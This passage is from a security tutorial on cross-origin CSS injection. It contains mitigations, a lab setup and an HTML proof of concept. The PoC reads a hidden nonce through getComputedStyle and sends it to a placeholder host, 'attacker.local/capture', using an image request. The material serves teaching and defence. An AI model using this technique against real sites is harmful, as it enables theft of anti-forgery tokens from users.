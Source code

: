7. **Avoid putting tokens in the page markup at all** where possible — use double-submit or SameSite cookies and re-auth for critical actions.

---

### Lab Setup (safe, repeatable)

1. **Victim app** (simple web server):

   * Page `/inbox` that echoes a `subject` parameter into the body with **no `<`/`>`** filtering (simulate poor filter).
   * Hidden field: `<input type="hidden" name="nonce" value="SECRET_TOKEN">`.
2. **Attacker page**:

   * `link rel="stylesheet"` pointing to `https://victim.local/inbox?subject={INJECT}`.
   * Script that reads `getComputedStyle(document.body).fontFamily` (or `currentStyle` in IE emulation) and reports via an `<img>` to attacker server.
3. **Run old/modern browsers**:

   * Test in IE emulation (if possible) and in a couple modern browsers to observe behavior differences.
4. **Goals**:

   * Confirm whether the victim text is parsed as CSS by the browser.
   * Extract the nonce and show exfiltration to attacker log.

**Note:** Always do this in a local lab or isolated environment. Never run PoC against production without authorization.

---

### Quick PoC (lab) — attacker HTML (modernized)

```html
<!doctype html>
<html>
<head>
  <link rel="stylesheet" href="http://victim.local/inbox?subject=%7B%7D*%7Bfont-family:'" type="text/css">
</head>
<body>
<script>
  // Fallbacks for different browsers
  function readProp() {
    try {
      var val = window.getComputedStyle(document.body).getPropertyValue('font-family');
      if(!val && document.body.currentStyle) val = document.body.currentStyle.fontFamily;
      return val || '';
    } catch(e) { return ''; }
  }
  var leaked = readProp();
  if(leaked) {
    var i = new Image();
    i.src = 'http://attacker.local/capture?data=' + encodeURIComponent(leaked);
  } else {
    console.log('No leakage observed in this browser.');
  }
</script>
</body>
</html>
```

---